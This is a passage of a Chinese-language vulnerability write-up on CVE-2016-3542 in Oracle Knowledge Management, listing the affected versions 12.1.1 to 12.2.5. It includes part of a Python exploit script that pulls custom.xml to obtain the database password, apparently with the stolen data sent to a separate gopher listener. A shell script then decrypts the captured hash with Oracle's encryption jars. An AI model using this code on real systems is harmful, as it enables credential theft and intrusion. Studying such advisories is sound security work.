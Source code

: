 ```
headers = {'content-type': 'application/x-www-form-urlencoded'}
print "(+) pulling custom.xml for the db password..."
r = requests.post(url, data=payload, headers=headers, proxies=proxies)
if r.status_code == 200:
print "(!) Success! please check the gopher.py window!"
```

decrypt.sh代码如下：

```
#!/bin/sh
if [ "$#" -ne 1 ]; then
    echo "(!) Usage: $0 [hash]"
else
    java -classpath "infra_encryption.jar:oraclepki.jar:osdt_core.jar:osdt_cert.jar:commons-codec-1.3.jar" -DKEYSTORE_LOCATION="keystore" com.inquira.infra.security.OKResourceEncryption $1
fi
```

<br>

**五、CVE细节**

[CVE-2016-3542](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-3542)

<br>

**六、受影响产品**

Oracle知识库管理系统12.1.1、12.1.2、12.1.3、12.2.3、12.2.4以及12.2.5版本。
